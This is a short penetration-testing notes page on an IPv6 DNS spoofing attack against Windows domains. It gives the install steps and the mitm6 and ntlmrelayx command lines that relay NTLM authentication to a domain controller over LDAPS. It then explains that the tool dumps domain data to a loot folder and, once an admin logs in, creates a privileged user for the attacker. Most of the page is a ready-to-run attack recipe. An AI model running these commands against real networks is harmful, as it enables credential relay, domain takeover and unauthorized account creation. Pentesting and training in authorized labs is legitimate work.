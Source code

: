 
Windows is enabled with ipv4 and ipv6. but no one is using ipv6 now. So there wont be any dns service running fir ipv6 in a network. So we will be spoofing the dns for ipv6 and collect the user system information from the network.

ldap or ldaps should be enabled on network

### MITM6
```sh
# install mitm6 from github
git clone <mitm6.git>

# Install requirements 
pip3 install .
```

```sh
# Start mitm6 in terminal 1
mitm6 -d <domainName>

# Start ntlmrelayx in terminal 2
ntlmrelayx -6 -t ldaps://<DomainControllerIP> -wh <fakewdpad.domainname.local> -l lootme
# -6 -> ipv6
# -t -> target
# -l -> loot
```

ipv6 will be asking for their dns service every 30 minutes, so wait for an event to happen
After event happens, check for any information dumped in the loot folder
open and inspect to see the info

while attack is going on, wait for any admin to login to the account, 
then the tool will create a new user for us with all exclusive permissions and we can use it.


Impacket versions > 0.9.19 are unstable and causing issues for students and pentesters alike. Try purging impacket completely and downloading 0.9.19 from here: [https://github.com/SecureAuthCorp/impacket/releases](https://github.com/SecureAuthCorp/impacket/releases)
